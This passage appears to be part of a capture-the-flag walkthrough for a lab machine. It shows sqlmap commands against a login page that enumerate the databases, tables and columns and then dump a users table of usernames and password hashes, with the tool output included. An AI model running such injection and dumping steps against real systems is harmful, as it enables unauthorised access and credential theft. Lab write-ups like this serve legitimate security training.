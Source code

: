 Listing the databases.

```bash
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL --dbs
...
available databases [2]:
[*] information_schema
[*] pinky_sec_db
```

Enumerating the database tables pinky_sec_db.

```bash
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL -D pinky_sec_db --tables
...
Database: pinky_sec_db
[2 tables]
+-------+
| logs  |
| users |
+-------+
```

Listing the columns of the table users.


```bash
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL -D pinky_sec_db -T users --columns
...
Database: pinky_sec_db
Table: users
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(100) |
| pass   | varchar(100) |
| uid    | int(11)      |
+--------+--------------+
```

Retrieving the records from the users table.

```bash
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL -D pinky_sec_db -T users -C uid,user,pass --dump
...
Database: pinky_sec_db
Table: users
[2 entries]
+-----+-------------+----------------------------------+
| uid | user        | pass                             |
+-----+-------------+----------------------------------+
| 1   | pinky       | f543dbfeaf238729831a321c7a68bee4 |
| 2   | pinkymanage | d60dffed7cc0d87e1f4a11aa06ca73af |
+-----+-------------+----------------------------------+
```
